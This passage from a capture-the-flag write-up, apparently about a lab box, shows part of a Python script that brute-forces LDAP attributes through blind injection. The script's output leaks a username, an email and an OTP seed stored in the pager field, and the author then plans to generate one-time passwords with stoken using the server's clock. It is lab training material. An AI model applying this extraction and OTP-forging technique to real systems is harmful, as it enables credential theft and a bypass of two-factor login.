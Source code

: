 ```
 55 
 56 if user_opt in ['all', 'username']:
 57     print("Bruting Username")
 58     brute_username()
 59 if user_opt in ['all', 'mail']:
 60     print("Bruting mail")
 61     brute_attribute('mail', string.ascii_lowercase + string.digits + '@.')
 62 if user_opt in ['all', 'pager']:
 63     print("Bruting pager")
 64     brute_attribute('pager', string.digits)
 65 if user_opt in ['all', 'userPassword']:
 66     print("Bruting userPassword")
 67     brute_attribute('userPassword', string.printable)

```

I probably could have just as quickly used bash loops to figure out which item was which, but I wanted to get all the values anyway. Here’s how the script works.
- The `brute_next_char` function takes what I know of the right value so far, and a character set for the next value, tries each on of those characters. As it finds one that works, it prints the value without newline, and breaks the loop by returning the updated string.
- I had to add some sleeps in there to keep the box from banning me. If I do get a connection error, I’ll sleep for 10 seconds to let myself recover.
- `brute_username` and `brute_attribute` each just call `brute_next_char` and manage the loop to continue until no more characters are found.
- I gave the script the option to brute any one attribute, or to do all.

On running it, it’s not clear why I can’t get the password, but pager seems like the candidate for what I’m looking for:

```

root@kali# ./brute_stuff.py all
Bruting Username
ldapuser
Bruting mail
ldapuser@ctf.htb
Bruting pager
285449490011357156531651545652335570713167411445727140604172141456711102716717000
Bruting userPassword

```

### Generate One-Time Password

Now that I have the seed value, I can use a program called `stoken` to generate the otp for any given time.

#### Get Time Offset

I need to know what time it is on the server. Fortunately, the http headers have time in them:

```

HTTP/1.1 200 OK
Date: Sat, 09 Feb 2019 11:07:44 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
X-Powered-By: PHP/5.4.16
Content-Length: 2633
Connection: close
Content-Type: text/html; charset=UTF-8

```

